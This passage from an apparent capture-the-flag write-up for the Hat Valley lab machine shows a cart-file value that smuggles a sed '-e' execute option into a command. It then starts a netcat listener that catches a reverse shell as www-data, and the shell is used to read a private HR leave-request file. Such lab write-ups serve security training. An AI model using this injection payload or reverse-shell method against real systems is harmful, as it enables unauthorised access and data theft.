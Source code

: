 Now the correct item id has been copied to our user's cart
```bash
-bash-5.1$ cat    5ce3-9484-af5-1edd
***Hat Valley Cart***
item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '&item_name=Straw Hat&item_brand=Sunny Summer&item_price=$70.00
```

Let's not forget to have a listener to catch that shell and lets try the delete again.
```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.185] 58778
sh: 0: can't access tty; job control turned off
$                       id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

Now we have a shell as www-data so we can access that /var/www/private folder that wasn't readable by bean
```bash
$ pwd
/var/www/store
$ cd ..
$ ls -la
total 28
drwxr-xr-x  7 root      root     4096 Oct  6 01:35 .
drwxr-xr-x 15 root      root     4096 Oct  6 01:35 ..
drw-rwx---  5 root      www-data 4096 Jan 15 19:13 .pm2
drwxr-xr-x  6 root      root     4096 Oct  6 01:35 hat-valley.htb
drwxr-xr-x  2 root      root     4096 Oct  6 01:35 html
dr-xr-x---  2 christine www-data 4096 Oct  6 01:35 private
drwxr-xr-x  9 root      root     4096 Oct  6 01:35 store
$ cd private
$ ls -la
total 12
dr-xr-x--- 2 christine www-data 4096 Oct  6 01:35 .
drwxr-xr-x 7 root      root     4096 Oct  6 01:35 ..
-rwxrwxrwx 1 christine www-data  600 Jan 16 04:10 leave_requests.csv
$ cat leave_requests.csv
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
```
